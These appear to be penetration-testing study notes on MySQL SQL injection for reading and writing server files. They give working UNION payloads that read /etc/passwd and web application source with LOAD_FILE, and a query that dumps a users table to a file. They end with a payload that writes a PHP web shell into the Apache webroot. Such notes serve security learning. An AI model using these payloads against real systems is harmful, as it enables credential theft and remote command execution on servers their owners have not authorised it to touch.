 ### LOAD_FILE()

The LOAD_FILE function lets us read data from files.  To read the /etc/passwd file:

```sql
SELECT LOAD_FILE('/etc/passwd');
```
```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

The default Apache webroot is /var/www/html.  Knowing this, we can try to read the contents of any page there.
```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

## Writing Files

To write files in a MySQL database you need:
1. User with FILE privilege enabled.
2. MySQL global **secure_file_priv** variable not enabled.
3. Write access tot he location we want to write to on the back-end server.

### Secure_file_priv

This variable is ussed to determine where to read/write files from.  An empty value lets us read files fromt he entire file system.  If a directory is set, we can only read from the folder specified.  If it's NULL then we can't read or write from anywhere.  **MySQL** uses **/var/lib/mysql-files** as the default folder and some configurations default to **NULL**.

Within MySQL we can use this query to obtain the value:
```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

All variables and most configurations are stored within the INFORMATION_SCHEMA database.  MySQL global variables are stored in a table called **global_variables**, a table with two columns: **variable_name** and **variable_value**.

So a UNION injection to get this variable could be:
```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```

### SELECT INTO OUTFILE

This is cool as hell. The **SELECT INTO OUTFILE** statement can be used to write data from a query into a file.  Example of use:
```sql
SELECT * from users INTO OUTFILE '/tmp/credentials';
```
You can also use this to SELECT strings into files.
```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```
Confirm write ability with a **UNION** payload:
```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```
We can use this to inject a php shell:
```php
<?php system($_REQUEST[0]); ?>
```
with this payload:
```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```